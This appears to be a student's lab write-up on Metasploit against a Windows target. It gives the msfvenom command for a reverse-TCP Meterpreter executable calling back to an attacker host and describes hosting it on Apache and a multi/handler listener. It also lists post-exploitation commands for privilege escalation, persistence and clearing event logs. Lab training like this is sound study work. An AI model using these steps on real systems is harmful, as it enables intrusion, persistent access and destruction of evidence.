


# Lab 1 - Meterpreter Reverse TCP lab

## Objective

Understand:

- payload delivery concepts

- Apache web hosting basics

- reverse TCP connections

- Meterpreter sessions

- basic post-exploitation commands

## Lab Environment

| Machine | Purpose |
|---|---|
| Kali Linux | Attacker Machine |
| Windows | Target machine |
| Apache2 | File Hosting | 
| Metasploit | Listener & session handling|

## Lab Workflow

# Steps Performed

## 1. Payload Creation

On Kali Linux terminal, switched to root privileges and generated the lab payload using msfvenom:

**msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.x.x.x LPORT=4444 -f exe -o malware.exe**

### What each part means

| Part | Meaning |
|---|---|
| msfvenom | Payload generator |
| -p | Selected payload | 
| windows/meterpreter/reverse_tcp | Windows reverse Meterpreter payload |
| LHOST | Kali Machine IP |
| LPORT | Listening port |

The payload was configured with:

- payload type

- LHOST

- LPORT

and saved as an executable file for the isolated lab environment.

Changed directory to var/www/html and moved the payload to this directory

## Step 2 - Apache2 Web Server Setup

Changed directory to var/www/html

Checked Apache2 service status and noticed it was inactive.

Started Apache2 service using:

**sudo service apache2 start**

This allowed the payload file to be hosted locally through the Apache web server.

After that moved the payload executable file to this directory

## Step 3 - Configured Metasploit Listener

Started the Metasploit Framework using:

**msfconsole**

Configured the listener using the:

**exploit/multi/handler**
module

Set

- payload type

- LHOST

- LPORT

to match the generated lab payload.

Started the listener and waited for the reverse connection from the Windows Machine.

## Step 4 - Post Exploitation Enumeration

After establishing the Meterpreter session, several commands were used to gather system information and understand the target environment.

| Command | Purpose |
|---|---|
|sysinfo | Display targets system information |
| ipconfig | Show targets network configuration |
| getuid | identify targets current user context |
| ps | list targets running processes |

### Privilege Escalation Demonstration

Tested privilige escalation concepts using:

**getsystem**

This demonstrated how elevated privileges may be obtained in vulnerable environments.

### Persistence Concepts

Studied persistence mechanisms using:

**run persistence**

This demonstrated how attackers may attempt to maintain long-term access to a compromised system.

### Covering Tracks

Demonstrated log clearing concepts using:

**clearev**

This showed how attackers may attempt to remove traces of activity from event logs.

## Additional Meterpreter functionality and module capabilities were explored in the controlled lab environment for educational purposes.

## ⚠️**Discalimer: These actions were performed in an isloated educational lab environment for cybersecurity learning purposes only.**
